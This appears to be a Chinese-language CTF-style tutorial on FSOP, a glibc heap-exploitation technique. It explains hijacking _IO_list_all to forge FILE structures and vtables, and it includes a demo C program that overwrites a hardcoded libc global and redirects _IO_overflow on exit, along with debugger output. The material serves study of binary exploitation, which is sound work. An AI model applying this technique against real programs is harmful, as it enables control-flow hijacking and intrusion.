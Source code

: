# FSOP

## 介紹
FSOP是File Stream Oriented Programming的縮寫，根據前面對FILE的介紹得知進程內所有的_IO_FILE結構會使用_chain域相互連接形成一個鏈表，這個鏈表的頭部由_IO_list_all維護。

FSOP的核心思想就是劫持_IO_list_all的值來僞造鏈表和其中的_IO_FILE項，但是單純的僞造只是構造了數據還需要某種方法進行觸發。FSOP選擇的觸發方法是調用_IO_flush_all_lockp，這個函數會刷新_IO_list_all鏈表中所有項的文件流，相當於對每個FILE調用fflush，也對應着會調用_IO_FILE_plus.vtable中的_IO_overflow。

```
int
_IO_flush_all_lockp (int do_lock)
{
  ...
  fp = (_IO_FILE *) _IO_list_all;
  while (fp != NULL)
  {
       ...
       if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))
	           && _IO_OVERFLOW (fp, EOF) == EOF)
	       {
	           result = EOF;
          }
        ...
  }
}
```

![](./figure/abort_routine.001.jpeg)

而_IO_flush_all_lockp不需要攻擊者手動調用，在一些情況下這個函數會被系統調用：

1.當libc執行abort流程時

2.當執行exit函數時

3.當執行流從main函數返回時


## 示例

梳理一下FSOP利用的條件，首先需要攻擊者獲知libc.so基址，因爲_IO_list_all是作爲全局變量儲存在libc.so中的，不泄漏libc基址就不能改寫_IO_list_all。

之後需要用任意地址寫把_IO_list_all的內容改爲指向我們可控內存的指針，

之後的問題是在可控內存中佈置什麼數據，毫無疑問的是需要佈置一個我們理想函數的vtable指針。但是爲了能夠讓我們構造的fake_FILE能夠正常工作，還需要佈置一些其他數據。
這裏的依據是我們前面給出的

```
if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))
	           && _IO_OVERFLOW (fp, EOF) == EOF)
	       {
	           result = EOF;
          }
```

也就是

* fp->_mode <= 0
* fp->_IO_write_ptr > fp->_IO_write_base



在這裏通過一個示例來驗證這一點，首先我們分配一塊內存用於存放僞造的vtable和_IO_FILE_plus。
爲了繞過驗證，我們提前獲得了_IO_write_ptr、_IO_write_base、_mode等數據域的偏移，這樣可以在僞造的vtable中構造相應的數據

```
#define _IO_list_all 0x7ffff7dd2520
#define mode_offset 0xc0
#define writeptr_offset 0x28
#define writebase_offset 0x20
#define vtable_offset 0xd8

int main(void)
{
    void *ptr;
    long long *list_all_ptr;

    ptr=malloc(0x200);

    *(long long*)((long long)ptr+mode_offset)=0x0;
    *(long long*)((long long)ptr+writeptr_offset)=0x1;
    *(long long*)((long long)ptr+writebase_offset)=0x0;
    *(long long*)((long long)ptr+vtable_offset)=((long long)ptr+0x100);

    *(long long*)((long long)ptr+0x100+24)=0x41414141;

    list_all_ptr=(long long *)_IO_list_all;

    list_all_ptr[0]=ptr;

    exit(0);
}
```

我們使用分配內存的前0x100個字節作爲_IO_FILE，後0x100個字節作爲vtable，在vtable中使用0x41414141這個地址作爲僞造的_IO_overflow指針。

之後，覆蓋位於libc中的全局變量 _IO_list_all，把它指向我們僞造的_IO_FILE_plus。

通過調用exit函數，程序會執行 _IO_flush_all_lockp，經過fflush獲取_IO_list_all的值並取出作爲_IO_FILE_plus調用其中的_IO_overflow

```
---> call _IO_overflow
[#0] 0x7ffff7a89193 → Name: _IO_flush_all_lockp(do_lock=0x0)
[#1] 0x7ffff7a8932a → Name: _IO_cleanup()
[#2] 0x7ffff7a46f9b → Name: __run_exit_handlers(status=0x0, listp=<optimized out>, run_list_atexit=0x1)
[#3] 0x7ffff7a47045 → Name: __GI_exit(status=<optimized out>)
[#4] 0x4005ce → Name: main()

```
